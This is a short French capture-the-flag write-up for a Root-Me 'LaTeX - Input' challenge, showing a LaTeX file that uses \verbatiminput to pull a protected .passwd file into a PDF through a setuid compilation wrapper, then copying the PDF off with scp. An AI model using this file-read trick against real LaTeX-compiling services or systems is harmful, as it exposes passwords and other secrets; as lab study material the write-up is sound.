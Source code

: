 # LaTeX - Input

## 10 Points

### Introduction à LaTeX

### Énoncé

Savez-vous comment fonctionne la commande input ?

## Solution

Ecriture d'un fichier en LaTeX qui récupère le contenu du fichier .passwd dans l'objectif de, lors de la convertion en pdf, le contenu du fichier apparaisse.

```
app-script-ch23@challenge02:~$ cat /tmp/thibault/main.tex

\documentclass{article}

\usepackage{verbatim}

\begin{document}

\section*{Content of \texttt{.passwd} file}

\verbatiminput{.passwd}

\end{document}
```
```Bash
app-script-ch23@challenge02:~$ ./setuid-wrapper /tmp/thibault/main.tex

[+] Compilation ...

[+] Output file : /tmp/tmp.U5LKARq7sA/main.pdf

**app-script-ch23@challenge02**:~$
```
En suite sur ma propre machine:

```Bash
➜  ~ scp -P 22 app-script-ch23@challenge02.root-me.org:/tmp/tmp.U5LKARq7sA/main.pdf .
**➜  ~** open main.pdf
```
